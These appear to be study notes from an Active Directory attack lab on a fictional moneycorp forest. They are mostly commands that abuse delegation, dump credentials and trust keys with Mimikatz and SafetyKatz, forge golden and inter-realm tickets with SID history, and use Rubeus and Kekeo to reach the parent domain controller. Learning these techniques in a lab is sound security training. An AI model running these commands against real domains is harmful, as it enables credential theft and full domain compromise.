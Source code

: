 `Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-student1$'`
`Get-DomainRBDC` (check that dcorp-student1 machine is able to access any service on dcorp-mgmt as any user including DA)
(cmd with local admin privs),
`C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"` (we would need the AES keys of the username that has the SID of S-1-5-18)
(from a normal session on the student VM),
`C:\AD\Tools\Rubeus.exe s4u /user:dcorp-student1$ /aes256:<AESkeys> /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt` (we want to access as dcorp-student and we would like to access HTTP on dcorp-mgmt as administrator)
`winrs -r:dcorp-mgmt cmd` (access dcorp-mgmt as DA, using winrs because he have a ticket using HTTP service)
# **Learning Objective 17**
[[Learning Objective 17]]
# **Privilege Escalation - Across Trusts**
### **Across Domains - Child to Parent using Trust Tickets**
Across Domains - Implicit two way trust relationship
sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory. sIDHistory can be abused in two ways of escalating privileges within a forest:
- krbtgt hash of the child
- Trust tickets - (additional step to the default kerberos flow, where this time there are 2 DCs which have Implicit Trust, in 1 DC it follows the flow of requesting a TGT/receiving a TGT/showing the TGT and requesting a TGS/receiving a inter-realm TGT (encrypted using the Trust Key, shared by both the DCs) , and then to the other DC it requests a TGS using that inter-realm TGT and we receive a TGS and as usual present the TGS to the Application Server)
(we are going to extract the trust key and then forge a inter-realm TGT where we inject a well known EA SID 519), 
- #### ***Look for [In] trust key from child to parent***
`Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc` or `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'` or 
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
- #### ***Forge an inter-realm TGT***
`C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<DomainSID> /sids:<SID of EA group of the parent domain> /rc4:<RC4hash> /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"` (within a forest or across forest AES is not supported)
- ##### ***Abusing with Kekeo***
- ##### ***Get a TGS for a service (CIFS) in the target domain by using the forged trust ticket***
`.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local`
- ##### ***Use the TGS to access the targeted service***
`.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi`
`ls \\mcorp-dc.moneycorp.local\c$`
(Tickets for other services, like HOST and RPCSS for WMI, HTTP for PSRemoting and Winrm can be created as well)
- ##### ***Abusing with Rubeus - Using the TGT forged inititally***
`C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt`
`ls \\mcorp-dc.moneycorp.local\c$`
# **Learning Objective 18**
[[Learning Objective 18]]
### **Across Domains - Child to Parent using krbtgt hash**
(Basically a Golden Ticket attack, except we forge a TGT for our own domain and include the sIDHistory)
We will abuse sIDHistory once again
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`